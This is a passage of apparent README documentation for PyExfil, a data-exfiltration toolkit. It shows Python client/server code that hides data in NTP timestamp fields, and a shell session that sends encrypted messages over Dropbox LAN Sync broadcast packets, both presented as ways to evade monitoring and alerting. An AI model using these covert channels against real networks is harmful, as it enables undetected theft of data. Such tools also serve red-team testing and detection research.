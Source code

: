 #### NTP Request
This method builds an NTP packet, assuming these are not as heavily monitored, and using the 8*4 bytes allocated for timestamping as the communication channel. This limits the communication to 32 bytes per packet in order to keep the structure of the NTP packet whole.

```python
# For client
from pyexfil.Comm.NTP_Body.client import Broadcast

Broadcast(data="Hello World", to='127.0.0.1', port=123, key="sekret")
# Notice that `to`, `port` and `key` are optional.

# For Server
from pyexfil.Comm.NTP_Body.server import Broker

b = Broker()
b.listen_clients()
# Customize the code to handle various commands.
```

#### DropBox LSP
Dropbox uses UDP broadcast packets to identify other Dropbox instances on the LAN and sync files between them. This exfiltration method can work in one out of two scenarios:
  * Unicast exfiltration - sending the data over DB-LSP packets to your server.
  * LAN Broadcast communication - assuming you're on the same LAN you can configure a listener and a sender to communicate over broadcast, masking the sender and receiver and in a way that might surpass some alerting mechnisms as there is "no direct connection" between them.

Shell Mode
```bash
$ sudo python dblsp.py

    To communicate between two hosts over broadcast you will need:
    	1) Setup an ecnryption key whichi will be identical on both hosts.
    		set key 123456
    	2) Know which host is going to broadcast the message:
    		set listener 10.0.0.1
    	3) Start active mode:
    		active 10.0.0.255

    Now just send messages with:
    	send "hello world"


DB_LSP > set key 123456
 key --> 123456.
DB_LSP > set listener 10.0.0.2
 listener --> 10.0.0.2.
DB_LSP > active 10.0.0.255
Starting active mode with 10.0.0.255.
Starting listener for 10.0.0.2.
10.0.0.255@DB_LSP > send hello
184 bytes sent to ('10.0.0.255', 17500).
10.0.0.255@DB_LSP >
```
